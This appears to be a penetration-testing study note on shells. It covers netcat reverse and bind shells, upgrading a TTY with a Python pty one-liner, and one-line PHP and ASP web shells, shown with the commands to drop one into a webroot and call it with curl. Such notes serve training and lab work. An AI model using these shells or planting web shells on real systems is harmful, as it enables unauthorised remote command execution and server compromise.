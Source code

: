 ### Reverse Shell
* Most common type of shell
	* Quick and easy
* Use netcat to listen for the connection coming from the victim

#### Netcat Listener
* Start `netcat` listener on a port of our choosing

```bash
# -l Listen mode, to wait for a connection to connect to us.
# -v Verbose mode, so that we know when we receive a connection.
# -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
# -p 1234 Port number `netcat` is listening on, and the reverse connection should be sent to.
$ nc -lvnp 1234

listening on [any] 1234 ...
```

#### Reverse Shell Command
* Command depends on host OS
* Connection comes from the victim to us
* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has a list of reverse shells or different use cases
* Used when we want a quick reliable connection
* However reverse shells are very fragile when losing the connection or canceling a command

```bash
$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Bind Shell
* Like a reverse shell, but we have to connect to the targets' listening port

```bash
$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Unlike a reverse shell, we drop the connection, we can just connect back via netcat
* However if the remote host reboots or the connection is stopped or any reason we lose our access

#### Upgrading TTY
* Multiple methods

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$
```

* Further, upgrade the shell to enable all features just like an SSH connection

```bash
# In a new terminal window
$ echo $TERM
xterm-256color
$ stty size
67 318

# Back in netcat
$ export TERM=xterm-256color
$ stty rows 67 columns 318
```

#### Web Shell
* Typically a web script i.e `php` or `ASPX` that accepts our command trough HTTP requests
	* `GET` or `POST`
	* Prints output back to web page
*  Common shell scripts

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<%                                                         %>
```

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell
* Place the script into the remote host's directory (webroot)

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | C:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |

* Apache example

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell
* We can open the file via a browser or `cURL`
* We provide our commands via the get parameter `?cmd=`

```bash
$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
